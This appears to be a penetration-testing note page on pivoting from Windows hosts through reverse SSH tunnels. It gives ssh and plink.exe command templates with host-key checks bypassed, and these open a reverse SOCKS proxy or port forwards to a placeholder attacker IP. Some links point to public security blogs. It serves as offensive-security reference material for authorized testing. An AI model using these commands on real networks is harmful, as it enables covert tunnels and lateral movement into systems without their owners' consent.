 # SSH

## 01 - SSH

TODO: Fill this info and refer to the links below

### 1.1 - Scenarios

#### 1.1.1 - Reverse Tunneling SOCKS Proxy

```
C:\> ssh -o "StrictHostKeyChecking=no" -NTfCqR <SOCKS_PORT> <username>@<attacker_IP>
```

## 02 - Plink

### 2.1 - Usage

```
C:\> plink.exe -batch -ssh [-P <PORT>] -l <username> -pw <password> -R <attacker_IP>:<local_PORT>:<bind_IP>:<bind_PORT> <attacker_IP>

C:\> cmd.exe /c echo y | plink.exe -ssh [-P <PORT>] -l <username> -pw <password> -R <attacker_IP>:<local_PORT>:<bind_IP>:<bind_PORT> <attacker_IP>
```

- Note: You can do the full path if you wish

```
C:\> %COMSPEC% /c echo y | plink.exe -ssh [-P <PORT>] -l <username> -pw <password> -R <attacker_IP>:<local_PORT>:<bind_IP>:<bind_PORT> <attacker_IP>

C:\> C:\windows\system32\cmd.exe /c echo y | plink.exe -ssh -l <username> -pw <password> -R <attacker_IP>:<local_PORT>:<bind_IP>:<bind_PORT> <attacker_IP> -P <PORT>
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x06 - Pivoting and Lateral Movement/Pivoting/Linux/Port Forwarding/SSH/Metasploit/Metasploit|Metasploit]]

- [TrustedSec: The SOCKS We Have at Home](https://trustedsec.com/blog/the-socks-we-have-at-home)

- [NetSPI: How to Access RDP Over a Reverse SSH Tunnel](https://www.netspi.com/blog/technical/technical-vulnerability-management/how-to-access-rdp-over-a-reverse-ssh-tunnel/)

- [SlayerLabs: Tunneling Quick Guide](https://posts.slayerlabs.com/tunneling-quick-guide/)

- [Catharsis Network Pivoting and Tunneling Guide](https://catharsis.net.au/blog/network-pivoting-and-tunneling-guide/)